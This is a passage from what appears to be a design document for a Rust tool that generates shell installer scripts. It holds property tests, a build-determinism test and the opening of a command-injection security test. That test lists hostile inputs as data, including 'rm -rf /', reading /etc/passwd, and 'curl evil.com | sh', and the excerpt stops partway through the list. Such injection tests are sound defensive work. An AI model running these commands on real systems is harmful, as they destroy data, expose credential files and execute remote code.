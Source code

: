 ```rust
        
        // Normalize and compare results
        match (rust_result, shell_result.status.success()) {
            (Ok(Ok(())), true) => {
                // Both succeeded
                prop_assert!(true);
            }
            (Ok(Err(_)), false) => {
                // Both failed (expected for invalid inputs)
                prop_assert!(true);
            }
            _ => {
                prop_assert!(false, "Rust and shell implementations diverged");
            }
        }
    });
}

#[test]
fn verify_deterministic_generation() {
    const ITERATIONS: usize = 1000;
    let mut hashes = std::collections::HashSet::new();
    
    for i in 0..ITERATIONS {
        // Force recompilation by touching source
        std::thread::sleep(std::time::Duration::from_millis(1));
        
        let output = Command::new("cargo")
            .args(&["build", "--features", "installer-gen"])
            .env("DETERMINISTIC_BUILD", "1")
            .env("SOURCE_DATE_EPOCH", "1234567890")
            .output()
            .unwrap();
        
        assert!(output.status.success());
        
        let shell = std::fs::read_to_string("target/installer.sh").unwrap();
        let hash = blake3::hash(shell.as_bytes());
        hashes.insert(hash);
    }
    
    assert_eq!(hashes.len(), 1, 
               "Generated {} different shell scripts!", hashes.len());
}
```

### 4.3 Security Testing

```rust
// tests/security.rs
#[test]
fn test_command_injection_prevention() {
    let malicious_inputs = vec![
        // Command substitution attempts
        "$(rm -rf /)",
        "`cat /etc/passwd`",
        "${PATH:+${PATH}:}/../../etc/passwd",
        
        // Quote escaping
        "'; curl evil.com | sh; echo '",
        "\"; curl evil.com | sh; echo \"",
        
        // Path traversal
```